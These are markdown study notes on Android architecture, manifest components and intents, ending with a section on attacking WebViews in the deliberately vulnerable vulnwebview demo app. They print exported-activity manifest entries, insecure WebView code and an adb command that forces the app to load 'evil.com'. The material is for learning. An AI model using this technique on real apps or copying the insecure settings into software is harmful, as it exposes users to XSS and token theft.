

# Android
- Android, based on the `Linux kernel`, is a mobile operating system. Discovered by Android Inc., acquired by Google.

## Android Architecture
- Android is an open source, Linux-based software stack created for a wide array of devices and form factors. [Credits](https://developer.android.com/guide/platform)


##### Linux Kernel
- The foundation for the Android platform is the Linux kernel, Android Runtime(ART) relies on the Linux kernel for underlying functionalities such as threading and low-level memory management.
- This kernel lets android take advatage of the [key security features](https://source.android.com/security/overview/kernel-security.html) and lets device manufactures develop hardware drivers for a well-known kernel. 
##### Hardware abstraction layer (HAL)
- The HAL provides standard interfaces that expose device specific modules including camera, Bluetooth, Sensor.
##### Android Runtime


- Core Libraries - are the tools and resources that the application code utilizes and the runtime environment provides.
- Android Runtime(ART) written to run multiple virtual machines on low-memory devices by executing Dalvik Executable format(DEX) files it specifically designed for android.
    - Ahead -of-time (AOT) and just-in-time (JIT) compilation
        - AOT (All code compiled together) compilation converts code into native machine code before an app runs, providing faster startup and execution.     
        - JIT (Each code file code compiled seperatly, suitable local development) converts code to native machine code during runtime, which uses fewer resources upfront and allows for dynamic optimization based on usage.
- Optimized garbage collection (GC).
- On Android 9 (API level 28) and higher, conversion of an app package's DEX files to mapp package into a more compact representation. This change allows your app to start faster and consume less disk space and RAM.
##### Libraries
- Many core Android system components and services, such as ART and HAL, are built from native code that requires native libraries written in C and C++.
- It has Weblit for browser application, Open GL add support for drawing and manupulating 2D and 3D graphics in your app.
##### Java API Framework
- View system you can use to build an app’s UI, including lists, grids, text boxes, buttons, and even an embeddable web browser
- Resource manager, providing access to non-code resources such as localized strings, graphics, and layout files
- Notification manager that enables all apps to display custom alerts in the status bar
- Activity manager that manages the lifecycle of apps and provides a common navigation back stack
- Content providers that enable apps to access data from other apps, such as the Contacts app, or to share their own data
##### System Apps
- User apps including Phone, Email, Message, Camers


## Androind Static Analysis
- Every app project must have an `AndroidManifest.xml` file, with precisely that name, at the root of the project source set. The manifest file describes essential information about your app to the Android build tools, the Android operating system, and Google Play.
- Android made up apk file, When you decompile the apk, you will get lot of files and folders. One of the file is `AndroidManifest.xml`
- `AndroidManifest.xml` stores package, version, SDK, Components of applications activity

```bash
<?xml version="1.0" encoding="utf-8"?>
<manifest
    xmlns:android="http://schemas.android.com/apk/res/android"
    android:versionCode="1"
    android:versionName="1.0">

    <!-- Beware that these values are overridden by the build.gradle file -->
    <uses-sdk android:minSdkVersion="15" android:targetSdkVersion="26" />

    <application
        android:allowBackup="true"
        android:icon="@mipmap/ic_launcher"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:label="@string/app_name"
        android:supportsRtl="true"
        android:theme="@style/AppTheme">

        <!-- This name is resolved to com.example.myapp.MainActivity
             based on the namespace property in the build.gradle file -->
        <activity android:name=".MainActivity">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />
                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>

        <activity
            android:name=".DisplayMessageActivity"
            android:parentActivityName=".MainActivity" />
    </application>
</manifest>
```

- `Activity` represents single screen of the UI of the application(loginActivity, cartpage.java) 
- `Services` More long running process no need of UI interface, it's like spotify application audio playing in the backround.
- `Broadcast Receviers` when charging cable connected notification, Got msg notification
- `Content Provider` provides the interface of appls, gives space app data in locally or cloud.
- `intents` used for communication between 2 components 
```bash
<!-- Explicit Intent Example: MyMainActivity is the entry point, typically launched explicitly -->
        <activity android:name=".MyMainActivity">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />
                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>

<!-- Implicit Intent Example: MyShareActivity can handle sharing text -->
        <activity android:name=".MyShareActivity"
            android:exported="true"> <!-- Required for Android 12+ if intent-filter is present -->
            <intent-filter>
                <action android:name="android.intent.action.SEND" />
                <category android:name="android.intent.category.DEFAULT" />
                <data android:mimeType="text/plain" />
            </intent-filter>
        </activity>
```
    - `Explicit Intent` specifically mentioned towards the component
    - `Implicit Intent` not mentioned by us, however intent does contain other attributes which allow the android to figureout the correct intent.


- Match case

- intent filters not match Match case

## Hacking Android WebViews
> WebView is a system component and a special UI element that allows an app to display web content, such as web pages or web-based applications, directly within its own interface instead of opening a seperate browser app. 

- Built on the Chromium engine, it acts as streamlined, in-app browser to render HTML, CSS and Javascript [Demo Application Vulnwebview](https://github.com/t4kemyh4nd/vulnwebview).
- WebViews are commonly used for tasks like displaying user agreements, in-app login pages, or links within socail media feeds, providing a more integrated and seamless user experience.

### WebView Vulnerabilities via the app's code ?
- If developer explicitly mentions `android:exported=true`, this parameter will taken adavatage by the third-pary applications sending intent this componet is exported third-paries has access to it. 

```bash title="AndroidManifest.xml" linenums="1" hl_lines="7-8"
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.tmh.vulnwebview">
    <uses-permission android:name="android.permission.INTERNET" />
    <uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />
    <application
        <activity android:name=".SupportWebView" android:exported="true" />
        <activity android:name=".RegistrationWebView" android:exported="true" />
        <activity android:name=".MainActivity">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />
                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>
</manifest>
```
- You can exploit this using the `adb shell` manually starting the activity.
```bash
# https://github.com/t4kemyh4nd/vulnwebview/blob/main/app/src/main/java/com/tmh/vulnwebview/RegistrationWebView.java, line 45 has reg_url
adb shell am start -n com.tmh.vulnwebview.RegistrationWebView --es reg_url "https://www.evil.com"
# --es extra string
```
- Application code 
```java title="RegistrationWebView.java" linenums="1" hl_lines="34-37"
package com.tmh.vulnwebview;
import android.os.Bundle;
import android.util.Log;
import android.webkit.ConsoleMessage;
import android.webkit.WebChromeClient;
import android.webkit.WebView;
import android.webkit.WebViewClient;
import androidx.appcompat.app.AppCompatActivity;

public class RegistrationWebView extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_registration_web_view);
        setTitle("Registration page");

        loadWebView();
    }

    private void loadWebView() {
        WebView webView = findViewById(R.id.webview);
        webView.setWebChromeClient(new WebChromeClient() {
            @Override
            public boolean onConsoleMessage(ConsoleMessage consoleMessage) {
                Log.d("MyApplication", consoleMessage.message() + " -- From line " +
                        consoleMessage.lineNumber() + " of " + consoleMessage.sourceId());
                return true;
            }
        });

        webView.setWebViewClient(new WebViewClient());
        //Allows cross-origin requests from file:// scheme to access content from any origin
        webView.getSettings().setAllowUniversalAccessFromFileURLs(true);

        //Enabling javascript
        webView.getSettings().setJavaScriptEnabled(true);

        if (getIntent().getExtras().getBoolean("is_reg", false)) {
            webView.loadUrl("file:///android_asset/registration.html");
        } else {
            webView.loadUrl(getIntent().getStringExtra("reg_url"));
        }
    }
}
```

- Scenarios
    - If an Authorization header is being sent while requesting the attacker-controlled domain.
    - If the application loads URLs with HTTP
- `setAllowUniversalAccessFromFileURLs` sets whether cross-origin requests in the context of a file schema URL should be allowed to access content from any origin. This include access to content from other file scheme URLs or web contexts.
- The setting removes all the `same-origin` policy restrictions allow urls make requests from files.
- `setJavaScriptEnabled` allow an attacker to carry out XSS, token stealing